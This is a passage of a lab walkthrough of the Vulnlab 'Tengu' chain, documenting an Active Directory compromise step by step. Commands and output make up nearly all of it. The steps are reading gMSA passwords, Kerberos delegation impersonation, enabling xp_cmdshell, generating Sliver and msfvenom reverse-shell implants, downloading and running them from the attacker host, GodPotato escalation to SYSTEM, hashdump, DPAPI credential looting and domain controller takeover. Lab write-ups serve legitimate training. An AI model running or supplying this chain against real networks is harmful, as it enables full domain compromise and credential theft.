As next logical step we `dumped` the `Active Directory` configuration using `BloodHound`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q bloodhound-python -u 't2_m.winters' -p 'REDACTED' -d 'tengu.vl' -ns 10.10.186.229 -c ALL --zip
INFO: Found AD domain: tengu.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.tengu.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc.tengu.vl
INFO: Connecting to GC LDAP server: dc.tengu.vl
INFO: Found 213 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 11 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: nodered
INFO: Querying computer: SQL.tengu.vl
INFO: Querying computer: DC.tengu.vl
WARNING: Could not resolve: nodered: All nameservers failed to answer the query nodered. IN A: Server Do53:10.10.186.229@53 answered SERVFAIL
INFO: Done in 00M 04S
INFO: Compressing output into 20240328153643_bloodhound.zip
```

## Dumping gMSA Passwords

Since `NODERED$` was part of the `LINUX_SERVERS@TENGU.VL` group, we checked the permissions of the group and found that they had the permission `ReadGMSAPassword` set.



We dumped the `NTLM` hash for `gMSA01$` from `dc.tengu.vl`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec ldap 'dc.tengu.vl' -u 'NODERED$' -H 'REDACTED' --gmsa
SMB         10.10.186.229   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.186.229   636    DC               [+] tengu.vl\NODERED$:REDACTED 
LDAP        10.10.186.229   636    DC               [*] Getting GMSA Passwords
LDAP        10.10.186.229   636    DC               Account: gMSA01$              NTLM: REDACTED
LDAP        10.10.186.229   636    DC               Account: gMSA02$              NTLM:
```

## Impersonation through Delegation

The account of `GMSA01$@TENGU.VL` had the permission `AllowedToDelegate` set onto `SQL.TENGU.VL` which was shown in the `BloodHound` output above. The user `T1_M.WINTERS@TENGU.VL` was member of the `SQL_ADMINS@TENGU.VL` group.



We used this to our advantage and impersonated `T1_M.WINTERS@TENGU.VL` through our permissions as `GMSA01$@TENGU.VL`. To do so we requested a `Kerberos ticket` for `t1_m.winters`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q impacket-getST 'tengu.vl/gmsa01$' -spn 'mssqlsvc/sql.tengu.vl' -hashes ':REDACTED' -impersonate 't1_m.winters'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters.ccache
```

We exported it on our box.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ export KRB5CCNAME=`realpath t1_m.winters.ccache`
```

And then used `impacket-mssqlclient` again to authenticate using the exported `Kerberos ticket` to get a `shell` on the `MSSQL instance`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q impacket-mssqlclient -k -no-pass SQL.tengu.vl
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)>
```

## Code Execution through MSSQL

We logged in as `sa` on the `MSSQL instance` and enabled `xp_cmdshell` to gain `code execution` on the system.

```c
SQL (TENGU\t1_m.winters  dbo@master)> exec_as_login sa
SQL (sa  dbo@master)>
```

```c
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(SQL): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(SQL): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

Since I was facing a `character limit` while executing my payload, I switched to `Sliver` for convenience.

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...
[*] Loaded 20 aliases from disk
[*] Loaded 104 extension(s) from disk

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain annihilator
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --mtls 10.8.0.2:8888 --os windows --arch amd64 --disable-sgn --format exe --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 30s
[*] Implant saved to /tmp/HIGH_COMBINE.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

Then I created a directory on `C:\` to put my `Sliver payload` in.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "mkdir C:\temp"
output   
------   
NULL
```

I downloaded the `binary` to the directory.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "powershell iwr 10.8.0.2/HIGH_COMBINE.exe -o C:\temp\HIGH_COMBINE.exe"
```

And executed it.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "C:\temp\HIGH_COMBINE.exe"
```

Instant callback made me happy.

```c
[*] Session ca96ccdb HIGH_COMBINE - 10.10.186.230:50591 (SQL) - windows/amd64 - Fri, 29 Mar 2024 08:29:33 EDT
```

```c
sliver > use ca96ccdb-1626-4557-89f6-b66446d652c4

[*] Active session HIGH_COMBINE (ca96ccdb-1626-4557-89f6-b66446d652c4)

sliver (HIGH_COMBINE) >
```

I swear I knew what I was doing...

```c
sliver (HIGH_COMBINE) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 4076

PS C:\Windows\system32> whoami
whoami
tengu\gmsa01$
```

## Pivoting SQL.tengu.vl

We received a shell as `gmsa01$` on `SQL.tengu.vl` which luckily had `SeImpersonatePrivilege` enabled.

```c
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name     SID                                           
============= ==============================================
tengu\gmsa01$ S-1-5-21-3957391419-3750004211-4142433870-1109


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
TENGU\Domain Computers                     Group            S-1-5-21-3957391419-3750004211-4142433870-515                   Mandatory group, Enabled by default, Enabled group
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users          Alias            S-1-5-32-558                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQLSERVER                     Well-known group S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
NT SERVICE\ALL SERVICES                    Well-known group S-1-5-80-0                                                      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to SYSTEM

For the sake of `dumping hashes` after getting privileges as `NT AUTHORITY\SYSTEM`, I fired up `Metasploit`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.0.2 LPORT=9696 -f exe -o a.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: a.exe
```

```c
PS C:\temp> iwr 10.8.0.2/a.exe -o a.exe
iwr 10.8.0.2/a.exe -o a.exe
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Display the Framework log using the log command, learn 
more with help log
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.8.0.2
LHOST => 10.8.0.2
msf6 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.0.2:9696
```

```c
PS C:\temp> .\a.exe
.\a.exe
```

After I transferred my `payload` to the box, I downloaded a copy of `GodPotato` to abuse the `SeImpersonatePrivilege`.

- [https://github.com/BeichenDream/GodPotato/releases](https://github.com/BeichenDream/GodPotato/releases)

Then I pointed it to my `payload` and fired it up.

```c
PS C:\temp> .\GodPotato-NET4.exe -cmd 'a.exe'
.\GodPotato-NET4.exe -cmd 'a.exe'
[*] CombaseModule: 0x140713520529408
[*] DispatchTable: 0x140713523116360
[*] UseProtseqFunction: 0x140713522411744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\95813bdb-5775-4eb3-97bc-7ef587af613a\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007802-02d4-ffff-334f-665ec6154170
[*] DCOM obj OXID: 0xc919f994cd5eed6a
[*] DCOM obj OID: 0xb3ddca86ecf73975
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 888 Token:0x784  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3364
```

The callback came in with privileges as `NT AUTHORITY\SYSTEM` and granted us access to the `second flag (Tengu_User-2)`

```c
[*] Sending stage (201798 bytes) to 10.10.186.230
[*] Meterpreter session 2 opened (10.8.0.2:9696 -> 10.10.186.230:50987) at 2024-03-29 09:01:58 -0400

meterpreter >
```

```c
C:\temp>whoami
whoami
nt authority\system
```

## root.txt (Tengu_User-2)

```c
C:\Users\Administrator\Desktop>type root.txt
type root.txt
VL{REDACTED}
```

## Post Exploitation on SQL.tengu.vl

As mentioned earlier we `dumped` the `hashed` on `SQL.tengu.vl` which I did by using `hashdump`.

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
```

## Dumping Data Protection API (DPAPI)

With the newly gathered `hash` of the `Administrator` we dumped the content of the `Data Protection API (DPAPI)` and got credentials of `T0_C.FOWLER` which was a member of the `DOMAIN ADMINS@TENGU.VL` group.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'SQL.tengu.vl' -u 'Administrator' -H 'REDACTED' --local-auth --dpapi
SMB         10.10.186.230   445    SQL              [*] Windows 10.0 Build 20348 (name:SQL) (domain:SQL) (signing:False) (SMBv1:False)
SMB         10.10.186.230   445    SQL              [+] SQL\Administrator:REDACTED (Pwn3d!)
SMB         10.10.186.230   445    SQL              [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.10.186.230   445    SQL              [+] Got 4 decrypted masterkeys. Looting secrets...
SMB         10.10.186.230   445    SQL              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{3C0BC8C6-D88D-450C-803D-6A412D858CF2} - TENGU\T0_c.fowler:REDACTED
```

| Username    | Password                  |
| ----------- | ------------------------- |
| T0_c.fowler | REDACTED |



## Privilege Escalation

Using the credentials of `T0_C.FOWLER` granted us access on `dc.tengu.vl` and to the `third and last flag (Tengu_Root)`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'dc.tengu.vl' -u 'T0_c.fowler' -p 'REDACTED' -k 
SMB         dc.tengu.vl     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         dc.tengu.vl     445    DC               [+] tengu.vl\T0_c.fowler:REDACTED (Pwn3d!)
```

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'dc.tengu.vl' -u 'T0_c.fowler' -p 'REDACTED' -k -X 'type C:\Users\Administrator\Desktop\root.txt'
SMB         dc.tengu.vl     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         dc.tengu.vl     445    DC               [+] tengu.vl\T0_c.fowler:REDACTED (Pwn3d!)
SMB         dc.tengu.vl     445    DC               [+] Executed command via wmiexec
SMB         dc.tengu.vl     445    DC               VL{REDACTED}
```

## root.txt (Tengu_Root)

```c
VL{REDACTED}
```
